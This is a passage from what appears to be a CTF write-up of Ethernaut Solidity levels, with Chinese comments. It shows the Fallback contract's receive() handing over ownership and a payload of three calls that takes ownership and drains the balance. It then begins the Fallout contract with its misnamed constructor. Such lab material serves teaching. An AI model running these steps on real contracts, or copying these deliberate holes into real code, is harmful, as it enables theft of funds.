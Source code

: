       function withdraw() public onlyOwner {
         payable(owner).transfer(address(this).balance);
       }
     //这是一个 fallback函数,也可以称为接受ether的函数,当合约接收到ether却不存在处理的函数,就会调用fallback函数回退
       receive() external payable {
         require(msg.value > 0 && contributions[msg.sender] > 0);
         owner = msg.sender;
       }
     }
     ```

     *   you claim ownership of the contract

     *   you reduce its balance to 0

         ```solidity
         //constructor()初始化了1000个ether,而我们每次只能发送<0.001个,这需要大量请求才能成为owner
         
         //receive()
         payload:
         //首先我们的贡献>0才能调用receive()
         contract.contribute({value:1})
         //发送支付请求来调用receive()
         contract.sendTransaction({value:1})
         //成为owner后清空余额
         contract.withdraw()
         ```

3.   **Fallout**

     ```js
     // SPDX-License-Identifier: MIT
     pragma solidity ^0.6.0;
     
     import 'openzeppelin-contracts-06/math/SafeMath.sol';
     
     contract Fallout {
       
       using SafeMath for uint256;
       mapping (address => uint) allocations;
       address payable public owner;
     
       function Fal1out() public payable {
         owner = msg.sender;
         allocations[owner] = msg.value;
       }
     
       modifier onlyOwner {
     	        require(
     	            msg.sender == owner,
     	            "caller is not the owner"
     	        );
     	        _;
     	    }
     
       function allocate() public payable {
         allocations[msg.sender] = allocations[msg.sender].add(msg.value);
       }
     